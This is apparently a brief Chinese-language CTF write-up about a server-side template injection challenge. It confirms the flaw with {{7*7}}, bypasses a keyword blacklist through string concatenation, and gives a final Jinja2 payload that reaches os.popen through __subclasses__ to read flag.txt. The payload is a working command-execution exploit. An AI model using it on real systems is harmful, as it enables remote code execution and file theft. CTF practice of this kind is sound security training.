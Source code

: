 经典的ssti，输入{{7*7}}，发现回显是49，可知这里有ssti注入，那么在尝试的过程中会发现ban掉了一些字符，比如`class`、`flag`，那么我们就需要绕过，此处我采取的方式是字符串的拼接，注意当你采取字符串拼接的时候就需要用中括号来访问，而不是`.`

最终payload:

`{{''['__cla'+'ss__'].__base__['__subcla'+'sses__']()[132].__init__.__globals__["po"+"pen"]("cat"+" fla"+"g.txt").read()}}`